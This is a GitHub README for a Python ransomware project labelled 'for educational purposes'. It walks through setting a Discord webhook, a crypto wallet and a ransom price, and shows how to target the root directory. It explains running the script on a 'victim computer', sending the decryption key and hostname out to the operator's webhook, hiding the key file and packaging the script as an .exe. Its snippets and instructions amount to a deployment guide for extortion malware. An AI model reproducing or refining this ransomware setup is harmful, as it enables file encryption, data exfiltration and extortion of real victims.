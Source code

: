 ![This is an image](https://i.ibb.co/CV9mKzD/Background.png)



<h1 align="center">RANSOMWARE.PY</h1>

<div align="center">
  <strong>Ransomware made with python, open-source project.</strong>
  <br>
  <br>

  <a href="https://travis-ci.com/kyb3r/dhooks">
    <img src="https://img.shields.io/travis/com/kyb3r/dhooks/master.svg?style=for-the-badge&colorB=06D6A0" alt="Travis" />
  </a>
  
  <a href="https://test-dhooks-doc.readthedocs.io/en/latest/?badge=latest">
    <img src="https://img.shields.io/readthedocs/dhooks.svg?style=for-the-badge&colorB=E8BE5D" alt="Documentation Status" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/">
    <img src="https://img.shields.io/pypi/pyversions/dhooks.svg?style=for-the-badge&colorB=F489A3" alt="Py Versions" />
  </a>

  <a href="https://pypi.org/project/dhooks/">
    <img src="https://img.shields.io/pypi/v/dhooks.svg?style=for-the-badge&colorB=61829F" alt="PyPi" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/kyb3r/dhooks.svg?style=for-the-badge&colorB=7289DA" alt="LICENSE" />
  </a>
</div>
<br>



Here is an open-source program that allows you to understand the creation of a ransomware via **python**. I remind you that this is only for **educational purposes**, I am not responsible for any problems related to these scripts.

- **How it works ?**

In order to be able to encrypt the files and decrypt them, I use the `cryptography.fernet` module. This module allows to encrypt a message or files only accessible with a decryption key.

If you want to convert the .py file into a `.exe` file its possible ! Using [pyinstaller](https://pyinstaller.org/en/stable/)

### Reminder...

![EDUCATIONPURPOSESONLY](https://i.ibb.co/NxbHwyM/winmiwnrih.png)

## Authors

- [@zaqoQLF](https://www.github.com/zaqoQLF)


## Installation Windows
![Logo](https://i.ibb.co/tJBNv9x/Screenshot-2022-05-24-at-8-07-34-PM.png)

In order to be able to install all the dependencies you will need to have `pip` installed and run the commands below. If you are on **windows** run one of the following commands :

```bash
  pip3 install -r requirements.txt or pip install -r requirements.txt
```

Or run the file `setup.py` and choose which type of installation you want.
```bash
  python3 setup.py
```

Or install all dependencies one by one : 

```bash
  pip install os
  pip install time
  pip install socket
  pip install cryptography
  pip install discord_webhook
  pip install colorama
  pip install binascii
```

In the `ransomware.py` can modify some values like the `Discord Webhook`, your CryptoCurrency Wallet, the requested price, and the currency desired.

```python
  class ransomware:
    def __init__(self):
        self.files_to_encrypt = []
        self.KeyStore = []
        self._keyEncrypt = Fernet.generate_key()
        self.dc_webhook = DiscordWebhook("Your Discord Webhook Here")
        self.wallet_url = "YOUR WALLET URL"
        self.priceToAsk = "Price To Ask Here"
        self.currency = "Crypto Currency Choice"
  ```
  
In case you don't want to encrypt some files, you can specify it as I did in this line of code below.
- Attention, you must write the file name similar to the file you do not want to encrypt

So if you want to add `DoNotEncryptMe.txt` just add a line of code after the `setup.py` like this:

Do this for the 2 functions, its very important cause if you don't do that it will encrypt your files, or decrypt it.
But in the case you want to encrypt all victim's files, don't touch anything.

```python
   ... or file == 'DoNotEncryptMe.txt':
```
```python
    # In the encrypt_files function
    if file == 'ransomware.py' or file == 'rkey.key' or file == 'encryptionCheck.txt' or file == 'requirements.txt' or file == 'setup.py' or file == 'ADD YOUR FILE NAME HERE':
```
```python
    # In the decrypt_files function
    if file == 'ransomware.py' or file == 'rkey.key' or file == 'encryptionCheck.txt' or file == 'requirements.txt' or file == 'setup.py' or file == 'ADD YOUR FILE NAME HERE':
```
    
## Running Scripts

![Logo](https://i.ibb.co/1qGfTKF/Screenshot-2022-05-24-at-8-06-10-PM.png)

To be able to execute the files you will have to run these commands

The script must run on your victim computer, or if you want to try you can ! but in a empty directory to avoid the encryption of all your files.
```python
  python3 ransomware.py
```

By default the files which will be encrypted will be those which are in the current working directories, to specify the path you can add this for example:
for more information click [here](https://www.geeksforgeeks.org/python-os-listdir-method/)

```python 
  path = "/"   # "/" correspond to the root file but you can custom with a custom path example C: Boot or D:/
  for file in os.listdir(path): # then specify the path as parameter
```

If the decryption key correspond it will shows you this:

![Decryption Accepted](https://i.ibb.co/1s4RSrg/rightkey.png)

Else, it will return an error and keep your files encrypted until you have the right decryption key :

![Decryption Rejected](https://i.ibb.co/D5MngLn/incorrect-Key.png)

## How Encryption works ?

The encryption will change all your victim's current file (in the directory chosen) by an encryption that will be only readable/decryptable with a key. ( The key will be send on Discord with webhook, you need to put the link of your webhook in the `self.dc_webhook = ""`).

Regarding encryption, all the encryption you will do will be automatically in bytes which means that you must decode -> strings to be able to use your variables or whatever you want.

In this script everything has already been done but if you want for example to send the key via email/smtp or other you will have to decode it.
- Here is a code sample :
```python
    from cryptography.fernet import Fernet

    key_encryption = Fernet.generate_key()

    _Key = Fernet(key_encryption)

    TextToEncrypt = _Key.encrypt(b'Hello World !') # Need to be in bytes

    # Output of TextToEncrypt : b'gAAAAABijpAFxDE5pe5EJHIPgdtfRNvSvk81wEXyueyyKhDYWt-0w13c2eJVFNBUmxB0WVTvnVccYxP0MrlM9asNC-oLLZ1mZQ=='

    # Then decrypt

    DecryptText = _Key.decrypt(TextToEncrypt) # Output : b'Hello World !'

    # As you see it will be in Bytes so to decode it to turn this variable into strings : 

    print(DecryptText.decode()) 

    # Output -> Hello World !
```

For example i got here a `.txt.` file and i will encrypt it.

![txt file](https://i.ibb.co/pR56FRT/hello-World.png)

So, first of all in my directory i only got this txt file and my script, you can make some exception to avoid encryption on some specified files.
If i run my script it will encrypt it and it will be not readable anymore until the victim's got the key

After that, few files will be created, first an `encryptionCheck.txt` will be create on the victim's computer this file will be used to check if this file exist. If its not it will encrypt all the file and if it already exist it will just ask the victim a ransom. So its a way to check if the encryption already been executed or not.

This `encryptionCheck.txt` is very useful but not the smarter way to do it but it makes the script more easier to understand and like this all the code is in one and unique script. 

After the encryption check file done, it will create a `rkey.key` file on the computer's victim. This will store the key in it but the victim will in no way know that the key is on his computer, moreover it will be mixed with a lot of files so impossible to find it for the victim. Since the files will have been modified, "The quick access" (folder on your computer) will be spammed by all the modified files, so it is impossible to find this key. 

Hello World File afer encryption : 

![AfterEncryption](https://i.ibb.co/ZGy4p3b/wuinduaw.png)

[!] To decrypt the victim files he will need the encryption key, you will receive it by webhook through discord webhook.
  
## Discord Webhooks

![App Screenshot](https://i.ibb.co/cQ7z9Y8/Screenshot-2022-05-24-at-8-09-39-PM.png)

- In this code there is a system that allows you to receive via webhook the hostname on which computer the ransomware was executed as well as the decryption key. 

- [FIXED - WORKS] For the moment the key cannot be used but you can change that by putting an input in the script and converting the string to bytes, base64 url-safe

![App Screenshot](https://i.ibb.co/KFSn0dQ/webhook2.png)

## Screenshot of Shell
![App Screenshot](https://i.ibb.co/RDNbssh/ransomware.png)


